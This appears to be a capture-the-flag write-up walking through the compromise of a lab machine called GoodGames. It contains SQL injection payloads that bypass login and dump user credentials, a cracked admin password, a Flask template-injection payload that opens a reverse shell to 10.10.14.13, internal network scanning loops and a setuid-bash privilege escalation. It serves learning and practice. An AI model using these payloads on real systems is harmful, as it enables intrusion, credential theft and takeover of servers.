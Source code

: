 1. Run nmap to discover some open ports and services from the web server and we discover only port 80 is opened.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3aafa463-69a2-43d6-a334-5cebca72d477)

2. Open the web server and it shows game website.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/aa13a579-aa8e-4bc1-9545-7811bf1464ee)

3. Use feroxbuster to discover any interesting directories and files.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e837c385-c9fa-4ca0-af15-e59b3a9db01b)

4. Checking one by one features and try to do login in the web server.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/738b6279-7769-42b8-a7a9-ad2fa751e61b)

5. First thing that i thought is SQLi vulnerability, so let's try input ` ' OR 1=1 -- ` and it works by returning message Login Success!
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5a0cb110-21e2-41ed-b827-bd0c06bc6730)

6. Send request to the web server and we successfully login as admin.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/aba04fda-567f-4f01-8c88-95cbd486b8af)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/baff21c4-4ad1-4b92-8bad-de9548c4dc28)

7. There is change password in there (we'll use it later) but unfortunately it returns error 500.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/7d89eaeb-a2fe-4e1f-9321-8ae7f0477d9a)

8. Now we must find the admin credentials. We use union-based injection and try one by one until it says login successful. In the photo we can discover that the last number (from 4) are being executed by the system. 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6a718a1d-db26-4e7b-9790-9810bd5bf917)

9. The first objective is to find what database is stored inside the web server. To do that, we can execute this payload `' UNION SELECT 0,1,2,concat(schema_name, ' ') FROM information_schema.schemata -- `
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2aaaae11-e5af-4ec4-8af5-61008bde2010)

10. Realize that only 2 databases inside the web server and the main focus is the **main** database. Next we want to find the table content inside the database with this payload `' UNION SELECT 0,1,2,concat(table_name, ' ') FROM information_schema.tables where table_schema = 'main' -- `
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/04fd3fdb-eb49-4fdf-b2cf-97ae76003d5d)

11. There are 3 tables inside the main database and we directly refer to user table. Before accessing that, we must know what column that are set in the table with this payload `' UNION SELECT 0,1,2,concat(column_name, ' ') FROM information_schema.columns where table_name = 'user' -- `
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3b7fa45d-907a-4ad0-a6c8-e3514974b46a)

12.The columns are known and we just directly grab the data with this payload `' UNION SELECT 0,1,2,concat(id, ' ', email, ' ', password, ' ', name) FROM user -- `
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/36b99644-78dc-4559-bc85-641db664ecca)<br>

Admin user data:
id = 1
email = admin@goodgames.htb 
password (hash) = 2b22337f218b2d82dfc3b6f77e7cb8ec 
name = admin

13.Seems like the password been hashed using md5, so I use this [tool](https://crackstation.net/) to crack it and found that the password is **superadministrator**
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6d87ec60-1ca1-4021-83b5-299674e50015)

14. Next we are checking what the setting feature (Right corner above) can do. When I clicked, it directed to internal-administrator.htb but I can't access the web.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e8d5eb02-0737-4804-977d-5608c2d806f6)

15. Add internal-administrator.htb to /etc/hosts and you can open the website and needs to login.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2153abfb-5929-4068-bb53-d57a45c11cb9)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/cc48f6dc-33b1-48dc-ba32-af2bec1a8ef0)

16. Input admin credentials that have been found and directed to admin's dashboard page.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/80d5d4dd-a0ae-4f49-abf5-c947f2dc0ebe)

17. From the web server name, it indicates to flask. The first thing related to flask is SSTI. In settings feature, we try to put this payload `{{ 6 * 8 }}`. If the output is 48, then it's vulnerable to SSTI.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e6e29e8d-3d5f-4fc8-ac1b-b71abcff02ae)

18. Yep, it's vulnerable. We can execute the payload from this [source](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) to execute bash command.

Payload:
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/fc10d462-723c-46ef-ab7b-68408211a275)

19. It shows the information of admin's id which means it works. Next we're going to takeover the admin's shell with reverse shell attack and for the script you can make with this [tool] (https://www.revshells.com/)

Payload:
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.13/777 0>&1"').read() }}`.

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ba4a4d6f-8ae7-439f-bf53-afb0fbfab298)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/db65f6e4-3a79-49bf-aa58-0a63c24ad5fa)

20. We successfully access the admin's shell and get the user flag in /home/augustus/user.txt.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a6b5b035-a2e2-49cb-b56d-d072ac6965fa)

21. We know that this is already the root one, but we can't find the root flag here. Realize that we still have augustus account that haven't we check. To do that, first we must know his IP address using `ip a` command.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/69f5513f-d776-4793-9132-0675eccb3e78)

22. Knowing that all the ports in 172.19.0.2 are opened. Now we must find another address that opened or indicates that's augustus's shell. We can use loop in bash with this payload `for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bf266e7e-d51f-4f7f-a302-76c5a81d53be)

23. The result is there are two open ports in 172.19.0.xxx. Next we check which ports are open in IP 172.19.0.1 with this command `for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "$PORT is open"; done`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9fbe3b3a-86e4-4fa0-a896-62a424ece4d1)

24. Unfortunately, the terminal doesn't have ssh access and we can't just access directly to augustus's shell because the partitions isn't mounted yet.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d35951e1-c436-41ad-924a-f02f4ff34e64)

25. To mount augustus's partitions (sda1) we can run `mount | grep augustus`.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/41e08e49-21c0-4021-80d7-68e0e18de662)

26. Run `script /dev/null bash` to use the original bash (not user bash) and run `ssh augustus@172.19.0.1` where the password is **superadministrator** (the admin credential).<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/b1061c61-80b7-49e8-9ed5-eaf19542dd1b)

27. Try to open the root and it says permission denied so we can't access it.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ecc569b3-ff6f-4fbf-9252-2b1ae37fdbd1)

28. Next step is we need to copy augustus's bash terminal to root to see the privilege. We can run `ls -l bash` to check it and found that the UID must be 1000.<br> 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e003b2a4-3c73-40cb-bb67-ac5c959462ae)

29. We're accessing the root privilege so the bash owner must be controlled by root. We can use `chown root:root bash` to transfer file ownership to root and give all access with `chmod 7777`.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/caa2f2b5-723e-4ce8-8745-5d91ca9d7fc8)

30. Open augustus's shell again with ssh and run the new privilege bash that has been settled in previous step with command `./bash -p`. There we get the root privilege and get the root flag in /root/root.txt.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/522a97f7-7c36-43a1-bff1-06efbb1391e8)



















































